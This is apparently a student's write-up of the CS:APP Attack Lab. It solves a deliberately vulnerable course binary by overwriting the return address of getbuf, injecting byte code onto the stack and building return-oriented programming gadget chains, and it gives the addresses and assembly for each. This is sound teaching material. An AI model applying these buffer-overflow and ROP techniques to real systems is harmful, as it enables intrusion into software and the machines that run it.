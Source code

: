 # Attack Lab 

## Part I: Code Injection Attacks

### Intro

The following is the assembly code for `getbuf()`:

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	  sub    $0x28,%rsp
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
```



![](./figures/0.jpg)

Here I use orange color to indicate the return address, and blue to show the exploit code part. Colorless means that part is meaningless.

![](./figures/1.jpg)

As is shown in figure 1, the target of this lab is to modify the return address in `getbuf()`, so that the program would not return to `test()` normally. Figure 1.(a) and 1.(b) apply to all the levels in Part I. So we will mainly focus on what it looks after executing `getbuf()` and get ready to return.

### Level 1

```assembly
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	  sub    $0x8,%rsp
```

Our first mission is just changing the return address of `getbuf`. To accomplish that, we need to know the beginning address of touch1, which is `0x4017c0`. The stack diagram looks like follows:

![](./figures/2.jpg)

The first 40 hex values in our input does not matter. We just need to ensure the 41st - 43rd values represent the correct address. As a result of little-endian byte ordering, the address is encoded as `c0 17 40`. [touch1.txt](./touch1.txt) is a sample input.  

### Level 2

```assembly
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	  sub    $0x8,%rsp
   
   # cookie: 0x59b997fa
```

Unlike level 1 where we simply modify the return address, we need to execute some exploit code in level 2. We can directly use the allocated stack space to store the exploit code. The procedure involves two returns: when `getbuf()` returns, it will jump to the current stack space to execute some byte code. After that, the byte code contains another `ret` instruction and the program counter will be redirected to `touch2()`. So there are two return addresses here, one is within the stack space and another is `touch2()`'s address, just as shown in figure 3.a:

![](./figures/3.jpg)

In our exploit code, we need to assign value to `%rdi`. Besides that, don't forget to subtract `%rsp`. After the first `ret` instruction, `%rsp` will automatically add by 0x8. Assume that our second return address is stored at address `0x5561dc98` as figure 3 (b) shows, then we need to subtract `%rsp` by 0x10.  

So we need the following byte code:

```assembly
   0:	48 83 ec 10          	sub    $0x10,%rsp
   4:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   9:	c3                   	retq   
```

and the stack diagram is shown in figure 3 (c). [touch2.txt](./touch2.txt) is a samput input.

### Level 3

```assembly
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	  push   %rbx
```

Level 3 is somewhat like level 2. The difference is switch from numerical value to a string. The string should be stored somewhere. As mentioned in the lab writeup, how can we protect the string from being overwritten by following functions (`hexmatch()` and `strnsmp()`)? One way is to store the string somewhere deep (e.g., `-0x100(%rsp)`) but it is somewhat complicated and the corresponding byte code would exceed the allocated stack space. Another way is just store the string above `%rsp`. More specifically, rsp2 as shown in figure 4 (a): 

![](./figures/4.jpg)

As the function get executed, `%rsp` just goes lower and lower. So the higher stack will be safe (as long as `hexmatch()` and `strnsmp()` don't contain code injection attacks).  

The byte code is as follows:

```assembly
   0:	48 83 ec 30          	sub    $0x30,%rsp
   4:	48 c7 c7 90 dc 61 55 	mov    $0x5561dc90,%rdi
   b:	c3                   	retq   
```

the stack diagram is shown in figure 4 (b). [touch3.txt](./touch3.txt) is a sample input.

## Part II: Return-Oriented Programming

### Level 2

In part II, since the stack positions differ from one run to another, we cannot set `rsp` to point to the our own exploit code. Instead, we need to find positions in the 'gadget farm'.  

![](./figures/5.jpg)

We can use `x/72bx` to get the byte code between `start_farm` and `mid_farm`. Fortunately, there is not much code, so we could find the gadgets easily. As shown in figure 5, there are two gadgets that could be useful: 

```assembly
58          popq %rax
90          nop
c3          ret

48 89 c7    movq %rax,%rdi
90          nop
c3          ret
```

Therefore, we need to store three bytes at stack pointer: the address of the first gadget, the cookie data to be popped, and the address of the second gadget. Note that both `ret` and `popq` would increase `rsp`,  so we need to use the upward space. [rtouch2.txt](./rtouch2.txt) is a sample input and here is the stack diagram:  

![](./figures/6.jpg)

### Level 3

![](./figures/7.jpg)

By examing the byte code within gadget farm (`x/296bx 0x401994`), we can extract some executable byte code as shown in figure 7. 

Some useful instructions are as follows:

```assembly
0x401a06: 48 89 e0 c3 
          movq %rsp,%rax
          ret
          
0x4019c5: 48 89 c7 90 c3
          movq %rax,%rdi
          nop
          ret
          
0x4019cc: 58 90 c3
					popq %rax
					nop
					ret
					
0x401a42: 89 c2 84 c0 c3
          movl %eax,%edx
          testb %al
          ret
          
0x401a69: 89 d1 08 db c3
          movl %edx,%ecx
          orb %bl
          ret
          
0x401a27: 89 ce 38 c0 c3
          movl %ecx,%esi
          cmpb %al
          ret
          
0x4019d6: #add_xy()
          lea (%rdi,%rsi,1),%rax
          retq
```

By looking at *farm.c*, we can find a `add_xy()` function after `mid_farm()`. It plays a critical role to calculate the address of our cookie string. According to phase 3 in Part I, we know that we need to store the string somewher above `rsp` when returning to `touch3()`.  

![](./figures/8.jpg)

The stack diagram is shown as above and the procedure is as follows:

```assembly
# set the base pointer to %rdi
movq %rsp,%rax
movq %rax,%rdi

# set the offset to %rsi
popq %rax					# rax = 0x48
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi

# add offset to base pointer to get the correct address
lea (%rdi,%rsi,1),%rax
movq %rax,%rdi

# call touch3()
```

[rtouch3.txt](./rtouch3.txt) is a sample input.

Cheers!